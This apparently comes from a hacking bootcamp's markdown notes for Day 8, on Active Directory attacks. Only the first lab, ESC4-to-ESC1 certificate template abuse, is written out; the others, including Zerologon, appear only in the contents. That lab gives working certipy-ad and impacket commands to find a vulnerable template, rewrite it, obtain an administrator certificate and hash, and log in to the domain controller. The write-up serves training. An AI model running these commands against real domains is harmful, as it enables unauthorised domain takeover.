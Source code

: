 # Network Reconnaissance and Compromise of Network Infrastructure - Day 8

## Overview
This document outlines the labs completed on 08/06/2025 during the hacking bootcamp, focusing on network reconnaissance and compromise of network infrastructure.

## Table of Contents
- [Lab 1: Privilege Escalation via ESC4](#lab-1-privilege-escalation-via-esc4)
- [Lab 2: Privilege Escalation via ESC1](#lab-2-privilege-escalation-via-esc1)
- [Lab 3: Network Intelligence and Compromise of Windows Machines](#lab-3-network-intelligence-and-compromise-of-windows-machines)
- [Lab 4: Zerologon](#lab-4-zerologon)

## Labs

### Lab 1: Privilege Escalation via ESC4
#### Objective
Escalate privileges on a domain controller by exploiting the ESC4 vulnerability.

#### Vulnerabilities
- ESC4: Misconfigured Active Directory Certificate Services (AD CS) allows privilege escalation through certificate abuse.

#### Requirements
Lab domain controller must be running and accessible with AD CS configured. Credentials for a low privilege user (user:password) should be available.

#### Steps
1. **Setup**
   - Verify connectivity to the domain controller.
   ```bash
   ping <DC_IP>
   ```
2. **Reconnaissance**
   - Enumerate and find vulnerable AD CS certificate templates. 
   ```bash
   certipy-ad  find -u user -p 'password' -dc-ip <DC_IP> -vulnerable -stdout
   ```
3. **Patch Vulnerable Template**
   - Update the vulnerable ESC4 template to ESC1 style. The vulnerable template in the lab was 'WebUser'.
   ```bash
   certipy-ad  template -u 'user@corp.local' -p 'password' -dc-ip <DC_IP> -template <VULN_TEMPLATE> -write-default-configuration
   ```
4. **Exploitation**
   - Request a certificate with elevated permissions and export it. The certificate authority in our case was 'CA-CYBER'.
   ```bash
   certipy-ad req -u 'user@domain.local' -p 'password' -ca <CA_NAME> -template <VULN_TEMPLATE> -dc-ip <DC_IP> -upn 'administrator@corp.local' -dns 'dc.corp.local' -sid 'S-1-5-21-..-500'
   ```
   - The certificate will be saved to the current directory, in our case, as 'administrator_dc.pfx'. Use it to authenticate.
   ```bash
   certipy-ad auth -pfx <CERT_FILE_NAME> -DC-IP <DC_IP>
   ```
   - Use impacket-smbclient to authenticated with the administrator's username and password obtained.
   ```bash
   impacket-smbclient corp.local/administrator@<DC_IP> -hashes <HASH_OBTAINED>
   ```